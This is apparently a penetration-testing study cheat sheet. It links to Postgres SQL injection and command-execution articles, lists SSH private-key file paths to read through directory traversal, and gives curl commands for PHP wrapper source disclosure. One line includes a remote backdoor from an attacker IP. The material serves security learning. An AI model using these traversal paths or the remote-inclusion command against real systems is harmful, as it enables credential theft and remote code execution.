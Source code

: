 #### Postgres
##### sqli

https://book.hacktricks.xyz/pentesting-web/sql-injection

##### general commands

https://hasura.io/blog/top-psql-commands-and-flags-you-need-to-know-postgresql

##### RCE

https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5

https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767

### Directory Traversal

- use encoding
- try in curl or burp
- use exploit payload
- search ssh keys

```
/.ssh/id_rsa
/.ssh/id_ecdsa
/.ssh/identity.pub
/.ssh/identity
/.ssh/id_rsa.pub
/.ssh/id_dsa.pub
/.ssh/id_dsa
/etc/ssh/ssh_config
/etc/ssh/sshd_config
/etc/ssh/ssh_host_dsa_key.pub
/etc/ssh/ssh_host_dsa_key
/etc/ssh/ssh_host_rsa_key.pub
/etc/ssh/ssh_host_rsa_key
/etc/ssh/ssh_host_key.pub
/etc/ssh/ssh_host_key
```

### File Inclusion Vulnerabilities

upload file or add code to a file and then include it and execute
encode if needed

#### PHP Wrappers
 may hide part of the source code, reveal this code can help us find credentials or understand 
the logic of the code

```
for example: 

curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php

curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php

curl "http://mountaindesserts.com/meteor/index.php?page=http://<IP>/simple-backdoor.php&cmd=ls"

```
